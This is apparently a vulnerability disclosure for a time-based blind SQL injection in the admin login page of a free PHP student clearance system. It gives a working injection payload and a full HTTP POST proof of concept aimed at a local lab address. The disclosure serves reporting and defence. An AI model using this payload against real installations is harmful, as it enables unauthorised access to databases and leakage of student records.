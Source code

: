 # Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code  (It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: Tr0e

2. vendors: [Web-Based Student Clearance System in PHP Free Source Code](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html);

3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;

4. Vulnerability location:  /student_clearance_system_Aurthur_Javis/admin/login.php

# Vulnerability Verification

[+] Payload:

```java
txtusername=admin'and(select*from(select+sleep(3))a/**/union/**/select+1)='&txtpassword=admin123&btnlogin=
```

POC：

```js
POST /student_clearance_system_Aurthur_Javis/admin/login.php HTTP/1.1
Host: 192.168.0.111:91
Content-Length: 106
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/student/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=e8pdd3dv0b39d1h4vcj99q01cq
Connection: close

txtusername=admin'and(select*from(select+sleep(3))a/**/union/**/select+1)='&txtpassword=admin123&btnlogin=
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：

![](C:\Users\True\AppData\Roaming\marktext\images\2022-10-06-21-42-58-image.png)
